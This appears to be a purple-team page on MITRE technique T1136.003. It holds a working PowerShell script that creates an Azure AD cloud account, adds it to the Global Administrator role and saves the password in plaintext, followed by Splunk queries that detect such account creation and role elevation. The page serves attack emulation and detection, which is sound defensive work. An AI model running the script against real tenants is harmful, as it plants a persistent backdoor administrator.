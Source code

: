 # Create Account: Cloud Account (Subtechnique T1136.003)

### Attack technique
The Below script will create a cloud-only account in Azure AD.
``` powershell
$TenantDetails = $NULL
$CurrentlyLoggedInUser = $NULL
$OnMicrosoftDomain = $NULL
$connection = $NULL
$CurrentTimestamp = [DateTime]::Now.ToString("yyyyMMdd-HHmmss")
try { 
    $AzureADSession = Get-AzureADCurrentSessionInfo
    $CurrentlyLoggedInUser = $AzureADSession.Account | select -ExpandProperty Id
    Write-Host "Already connected to : $AzureADSession.TenantDomain as $CurrentlyLoggedInUser"

} 
catch [Microsoft.Open.Azure.AD.CommonLibrary.AadNeedAuthenticationException] { 
    Write-Host "You're not connected to AzureAD. Connecting now..."; 
    $connection = Connect-AzureAD
    $AzureADSession = Get-AzureADCurrentSessionInfo
    $CurrentlyLoggedInUser = $AzureADSession.Account | select -ExpandProperty Id
    Write-Host "Connected to : $AzureADSession.TenantDomain as $CurrentlyLoggedInUser"
}
$CurrentlyLoggedInUser
$CurrentUserId = Get-AzureADUser -Filter "UserPrincipalName eq '$CurrentlyLoggedInUser'" | select -ExpandProperty ObjectId

$EmergencyUserUPNPrefix = Read-Host("Enter the name of the user you want to create or hit enter for the script to create one.")
if($EmergencyUserUPNPrefix -eq "")
{
	$EmergencyUserUPNPrefix = "TempUser_" + $CurrentTimestamp
}
$UserDisplayName = $EmergencyUserUPNPrefix 
$TenantDomain = $Connection.TenantDomain
$OnMicrosoftDomain = $CurrentlyLoggedInUser.substring($CurrentlyLoggedInUser.IndexOf('@'))
$OnMicrosoftDomain
$UserPrincipalName = $EmergencyUserUPNPrefix+$OnMicrosoftDomain

$EmUser = $NULL

try{
    $EmUser = Get-AzureADUser -ObjectId $UserPrincipalName -ErrorAction silentlycontinue
    write-output("Emergency user " + $UserPrincipalName + ' already exists.')
}catch{
    write-output("Emergency user " + $UserPrincipalName + ' does not exist. Creating now..')
    Add-Type -AssemblyName System.Web
    $UserPassword = [System.Web.Security.Membership]::GeneratePassword(32,2)
    $PasswordProfile = New-Object -TypeName Microsoft.Open.AzureAD.Model.PasswordProfile
    $PasswordProfile.Password = $UserPassword
    $UserPassword
    $NewUser = New-AzureADUser -DisplayName $UserDisplayName -PasswordProfile $PasswordProfile -AccountEnabled $true -UserPrincipalName $UserPrincipalName -MailNickName "EmUser"

    # Adding the new user to Global Admin role
    Write-output "Adding the new user to Global Admin r+ole"
    $GlobalAdminRole = Get-AzureADDirectoryRole | Where-Object { $_.displayName -eq  "Global Administrator"} 
    Add-AzureADDirectoryRoleMember -ObjectId $GlobalAdminRole.ObjectId -RefObjectId $NewUser.ObjectId 

    # Saving the details for the app
    $temp_location = (get-location).Drive.Root+"office365_temp\"
    $temp_file = $temp_location + $CurrentTimestamp+".txt"
    New-Item $temp_location -ItemType Directory -Force | Out-Null
    New-Item $temp_file -ItemType File -Force | Out-Null
    Add-Content $temp_file ("Tenant Domain: " + $AzureADSession.TenantDomain)
    Add-Content $temp_file ("Tenant Id: " + $AzureADSession.TenantId)
    Add-Content $temp_file ("Username: " + $UserPrincipalName)
    Add-Content $temp_file ("Password: " + $UserPassword)
    .\notepad.exe $temp_file
    write-output("User details written to the file\r\n")
}
```
When the script is run, It asks the name of the user to be created.<br>
If we just hit enter, It creates a user named "TempUser_" followed by the current date-time. <br>
<img src="../../../images/o365mitre/CreateAccount-T1136.png"></img>
<br>
Azure AD user is created as seen in the Azure portal. <br>
<img src="../../../images/o365mitre/CreateAccount-T1136_1.png"></img>
<br>

### Splunk Detections
#### Create user event
```powershell
index=azure sourcetype="azure:aad:audit" activityDisplayName="Add user" result="success"
| spath targetResources{}
| rename targetResources{}.userPrincipalName as UserAdded initiatedBy.user.userPrincipalName as CreatedByUPN  additionalDetails{}.value as UserAgent
| table _time UserAdded CreatedByUPN  UserAgent
```
<br>
Newly created user is found in the searach. <br>
<img src="../../../images/o365mitre/CreateAccount-T1136_2.png"></img>

Note : "Swagger-Codegen/1.4.0.0/csharp" is the user agent when Azure AD PowerShell is used to create the user.
<br>

#### The User was created outside PIM (e.g. PowerShell)
```powershell
index=azure operationType="RoleElevatedOutsidePimAlert" result="success" 
| rename targetResources{}.displayName as key_5, targetResources{}.userPrincipalName as key_6
| eval a = mvzip(key_5,key_6)
| makemv a delim=","
| eval RoleNameUserAddedto  = mvindex(a,0)
| eval UserAdded = mvindex(a,3)
| rename initiatedBy.user.displayName as CreatedByName, initiatedBy.user.userPrincipalName as CreatedByUPN
| table _time UserAdded RoleNameUserAddedto CreatedByName CreatedByUPN 
```